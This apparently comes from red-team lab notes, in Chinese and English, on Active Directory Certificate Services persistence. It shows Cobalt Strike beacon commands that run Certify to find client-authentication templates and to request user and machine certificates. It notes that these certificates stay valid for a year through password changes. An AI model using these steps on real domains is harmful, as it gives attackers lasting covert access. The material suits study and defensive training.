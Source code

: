 # User & Computer Persistence

用户&计算机权限维持

## 用户权限维持

查找所有客户端验证的证书
```
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth
```

![alt Persistence](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/user-cert-template.png?width=1920)

需要留意的参数：
1. The validity period is 1 year.(有效期为1年)
2. Authorization is not required.(不需要授权)
3. Domain Users in DEV have enrollment rights.（DEV 中的域用户都具有注册权限）

使用下面命令请求证书
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:User
```

上面命令生成的证书允许我们使用 Rubeus 为 nlamb 请求 TGT。它的有效期为 1 年，即使用户更改了密码，它也仍然有效，除非证书在CA上被注销了。


## Computer Persistence

为计算机申请证书的命令大同小异
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:Machine /machine
```

```/machine```参数让Certify提升到system权限，执行上面命令时本身需要```high-integrity```的权限

